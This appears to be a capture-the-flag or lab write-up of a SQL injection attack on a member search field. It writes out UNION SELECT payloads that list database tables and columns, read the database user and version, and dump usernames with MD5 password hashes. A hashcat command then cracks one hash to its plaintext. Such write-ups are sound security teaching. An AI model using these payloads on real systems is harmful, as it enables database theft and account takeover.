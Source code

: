 # SQL Injection Bruteforce Members

On the member page, there is a search member by id bar.

Lets try to search with the id 1
```
ID: 1
First name: one
Surname : me
```

We got 3 informations
Same info on id 2 and 3. But nothing on 4...

Id 5 give us something interesting.

```
ID: 5
First name: Flag
Surname : GetThe
```

When we try a research with 'A' character, we got an error message.

```
Unknown column 'A' in 'where clause'
```

If we copy that in google, we can find that is a mySQL error
So we can try to insert/inject a part of sql request to show the database.

_But how and what?_

The UNION command allow us to concat multiple requests.
To forge our injection we have to put a ID first follow by UNION and a second command.

A classic in sqli is to use SELECT to display _information_schema.tables_

Lets try something
```
1 UNION SELECT * FROM information_schema.tables
```

This doesn't work because here, we have to give 2 informations to select to fill the array in first name and surname fields.

```
1 UNION SELECT table_name, table_schema FROM  information_schema.tables
```
It's work!

We got more informations:
```
ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: db_default
Surname : Member_Brute_Force

ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: users
Surname : Member_Sql_Injection

ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: guestbook
Surname : Member_guestbook

ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: list_images
Surname : Member_images

ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: vote_dbs
Surname : Member_survey
```

But here we need the column_name for each table_name or table_schema.
So lets try this
```
1 UNION ALL SELECT table_name,column_name FROM information_schema.columns;#
```

We now have everything we need to display what we want in the database!

**Awesome!!!**

```
ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: db_default
Surname : id

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: db_default
Surname : username

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: db_default
Surname : password

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : user_id

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : first_name

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : last_name

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : town

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : country

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : planet

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : Commentaire

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : countersign

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: guestbook
Surname : id_comment

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: guestbook
Surname : comment

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: guestbook
Surname : name

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: list_images
Surname : id

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: list_images
Surname : url

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: list_images
Surname : title

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: list_images
Surname : comment

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: vote_dbs
Surname : id_vote

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: vote_dbs
Surname : vote

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: vote_dbs
Surname : nb_vote

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: vote_dbs
Surname : subject
```

We can also get some versions, usefull informations!

```
1 UNION ALL SELECT system_user(), user();#
1 UNION ALL SELECT UUID(), @@version;#
```



```
ID: 1 UNION SELECT countersign,Commentaire FROM Member_Sql_Injection.users
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```


As _username_ and _password_ are columns of _Member_Brute_Force_ schema, which is part of the table_name _db_default_

We can now try
```
1 UNION SELECT username,password FROM Member_Brute_Force.db_default
```

And we get
```
ID: 1 UNION SELECT username,password FROM Member_Brute_Force.db_default
First name: root
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8

ID: 1 UNION SELECT username,password FROM Member_Brute_Force.db_default
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
```

This is probably an hash, it loots like md5

Lets try bruteforce it with hashcat in kali
```
┌──(kali㉿kali)-[~]
└─$ hashcat -m 0 -a 0 hash /usr/share/wordlists/rockyou.txt --force

3bf1114a986ba87ed28fc1b5884fc2f8:shadow

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
```



## External Resources
https://book.hacktricks.xyz/pentesting-web/sql-injection
https://owasp.org/www-community/attacks/SQL_Injection
https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
https://sql.sh/cours/union
